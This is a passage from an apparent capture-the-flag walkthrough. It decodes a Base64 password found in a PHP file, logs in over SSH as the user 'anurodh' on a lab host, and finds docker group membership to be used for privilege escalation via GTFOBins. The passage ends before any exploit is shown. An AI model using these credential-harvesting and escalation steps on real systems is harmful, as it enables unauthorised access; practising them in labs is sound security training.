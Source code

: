 ```php title="source_code.php"
?>
</html>
```
- In the  `source_code.php` file we can see a message for a user `Anurodh` and a Base64 encoded password.
- Let's decode the password using `base64`.
```
$ echo "IWQwbnRLbjB3bVlwQHNzdzByZA==" | base64 -d
!d0ntKn0wmYp@ssw0rd            
```

| Username | Password            |
| -------- | ------------------- |
| anurodh  | !d0ntKn0wmYp@ssw0rd |
- We can now login through SSH as the user `anurodh` using the `!d0ntKn0wmYp@ssw0rd` password.
```
$ ssh anurodh@10.10.159.234                                
The authenticity of host '10.10.159.234 (10.10.159.234)' can't be established.
ED25519 key fingerprint is SHA256:mDI9eoI+sD1gmuE1Vl2iLvyVIopHnZlbAEFxr82BFwc.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.159.234' (ED25519) to the list of known hosts.
anurodh@10.10.159.234's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Dec 14 09:53:01 UTC 2023

  System load:  0.08               Processes:              134
  Usage of /:   24.8% of 18.57GB   Users logged in:        0
  Memory usage: 22%                IP address for eth0:    10.10.159.234
  Swap usage:   0%                 IP address for docker0: 172.17.0.1


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

19 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

anurodh@ubuntu:~$ 
```
- Using the `id` command we can check the groups that the `anurodh` user is part of.
```
anurodh@ubuntu:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```
- So the `anurodh` user is part of the `docker` group.
- We can find an exploit for Docker on GTFOBins.
